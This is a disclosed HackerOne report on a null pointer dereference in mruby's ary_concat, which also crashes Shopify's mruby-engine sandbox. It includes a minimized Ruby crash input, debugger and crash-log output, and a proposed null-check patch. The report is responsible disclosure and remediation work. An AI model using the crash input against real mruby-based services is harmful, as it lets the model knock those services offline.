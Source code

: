 # Null pointer dereference in ary_concat

## Report Details
- **Report ID**: 183667
- **URL**: https://hackerone.com/reports/183667
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-11-20T22:56:33.865Z
- **Disclosed**: 2016-12-17T20:51:30.882Z

## Reporter
- **Username**: haquaman
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
Hi,

The following file causes a segmentation fault in mruby, which also causes a segmentation fault in mruby-engine. I've minimized this file down to the bare bones what crashes it, then renamed variables and tidied so you can see what is needed and what isn't.

```
a=[0]
b=nil
a.each do |a|
  a = *case a
    when b
    redo
  end
end

```

```
$ ./dev/bin/mruby --version
mruby 1.2.0 (2015-11-17)
```

```
$ ./dev/bin/mruby crash.rb
Segmentation fault: 11
```

```
$ lldb ./dev/bin/mruby crash.rb
(lldb) target create "./dev/bin/mruby"
Current executable set to './dev/bin/mruby' (x86_64).
(lldb) settings set -- target.run-args  "crash.rb"
(lldb) r
Process 22505 launched: './dev/bin/mruby' (x86_64)
Process 22505 stopped
* thread #1: tid = 0x576dfc2, 0x0000000100001c8b mruby`ary_concat + 27, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x18)
    frame #0: 0x0000000100001c8b mruby`ary_concat + 27
mruby`ary_concat:
->  0x100001c8b <+27>: movl   0x18(%rdx), %ecx
    0x100001c8e <+30>: addl   -0x1c(%rbp), %ecx
    0x100001c91 <+33>: movl   %ecx, -0x20(%rbp)
    0x100001c94 <+36>: movq   -0x8(%rbp), %rdi
(lldb) bt
* thread #1: tid = 0x576dfc2, 0x0000000100001c8b mruby`ary_concat + 27, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x18)
  * frame #0: 0x0000000100001c8b mruby`ary_concat + 27
    frame #1: 0x0000000100001c66 mruby`mrb_ary_concat + 70
    frame #2: 0x000000010004263f mruby`mrb_vm_exec + 25439
    frame #3: 0x000000010003c2c7 mruby`mrb_vm_run + 135
    frame #4: 0x00000001000446b4 mruby`mrb_top_run + 100
    frame #5: 0x000000010006f19f mruby`load_exec + 1183
    frame #6: 0x000000010006ece3 mruby`mrb_load_file_cxt + 67
    frame #7: 0x0000000100000d78 mruby`main + 904
    frame #8: 0x00007fff8a9db5ad libdyld.dylib`start + 1
(lldb) register read
General Purpose Registers:
       rax = 0x000000010080f480
       rbx = 0x0000000000000000
       rcx = 0x0000000000000000
       rdx = 0x0000000000000000
       rdi = 0x0000000100202c80
       rsi = 0x0000000000000000
       rbp = 0x00007fff5fbfca40
       rsp = 0x00007fff5fbfca20
        r8 = 0x0000000000000000
        r9 = 0x000000000000010e
       r10 = 0x9e006753f3831cf7
       r11 = 0x0000000000786e70
       r12 = 0x0000000000000000
       r13 = 0x0000000000000000
       r14 = 0x0000000000000000
       r15 = 0x0000000000000000
       rip = 0x0000000100001c8b  mruby`ary_concat + 27
    rflags = 0x0000000000010202
        cs = 0x000000000000002b
        fs = 0x0000000000000000
        gs = 0x0000000000000000

(lldb) q
Quitting LLDB will kill one or more processes. Do you really want to proceed: [Y/n] y

```

The cause for this is there is a null `RArray` struct getting sent via a ptr to `ary_concat`, and then the program is trying to retrieve and set members of this null struct.

A patch to fix would be similar to:

```
diff --git a/src/array.c b/src/array.c
index 47d5ce8..838f6e4 100644
--- a/src/array.c
+++ b/src/array.c
@@ -256,6 +256,9 @@ mrb_ary_s_create(mrb_state *mrb, mrb_value self)
 static void
 ary_concat(mrb_state *mrb, struct RArray *a, mrb_value *ptr, mrb_int blen)
 {
+  /* FIXME: throw an error? */
+  if (!a) return;
+
   mrb_int len = a->len + blen;
 
   ary_modify(mrb, a);
```

As mentioned above, this also affected mruby-engine via this:

```
./bin/sandbox:20: [BUG] Segmentation fault at 0x00000000000018
ruby 2.3.0p0 (2015-12-25 revision 53290) [x86_64-darwin15]

-- Crash Report log information --------------------------------------------
   See Crash Report log file under the one of following:
     * ~/Library/Logs/CrashReporter
     * /Library/Logs/CrashReporter
     * ~/Library/Logs/DiagnosticReports
     * /Library/Logs/DiagnosticReports
   for more details.
Don't forget to include the above Crash Report log file in bug reports.

-- Control frame information -----------------------------------------------
c:0003 p:---- s:0010 e:000009 CFUNC  :sandbox_eval
c:0002 p:0201 s:0005 E:001598 EVAL   ./bin/sandbox:20 [FINISH]
c:0001 p:0000 s:0002 E:0019a0 (none) [FINISH]

-- Ruby level backtrace information ----------------------------------------
./bin/sandbox:20:in `<main>'
./bin/sandbox:20:in `sandbox_eval'

-- Machine register context ------------------------------------------------
 rax: 0x000000010b3bb420 rbx: 0x000000010b418d20 rcx: 0x0000000000000003
 rdx: 0x000000010b3bb420 rdi: 0x000000010b3b3440 rsi: 0x0000000000000000
 rbp: 0x00007fff55298f40 rsp: 0x00007fff55298f10  r8: 0x0000000000000000
  r9: 0x000000010b3b4fa0 r10: 0x000000010b3c5ac0 r11: 0x0000000000000020
 r12: 0x000000010b3b35a8 r13: 0x0000000000000000 r14: 0x0000000000000000
 r15: 0x0000000000000000 rip: 0x000000010b29147d rfl: 0x0000000000010246

-- C level backtrace information -------------------------------------------
0   ruby                                0x000000010ab035d4 rb_vm_bugreport + 388
1   ruby                                0x000000010a9a5023 rb_bug_context + 483
2   ruby                                0x000000010aa78653 sigsegv + 83
3   libsystem_platform.dylib            0x00007fff9826d52a _sigtramp + 26
4   mruby_engine.bundle                 0x000000010b29147d mrb_ary_concat + 29
5   ???                                 0x000000010b3b3440 0x0 + 4483396672

-- Other runtime information -----------------------------------------------

* Loaded script: ./bin/sandbox

* Loaded features:

    0 enumerator.so
    1 thread.rb
    2 rational.so
    3 complex.so
 <snip various gems>
  185 /Users/<snip>/mruby-engine/lib/mruby_engine/mruby_engine.bundle
  186 /Users/<snip>/mruby-engine/lib/mruby_engine.rb

[NOTE]
You may have encountered a bug in the Ruby interpreter or extension libraries.
Bug reports are welcome.
For details: http://www.ruby-lang.org/bugreport.html

```

After applying that patch to `ext/mruby_engine/mruby` and recompiling, that crash no longer happens.

Cheers,

Hugh

## Attachments
No attachments
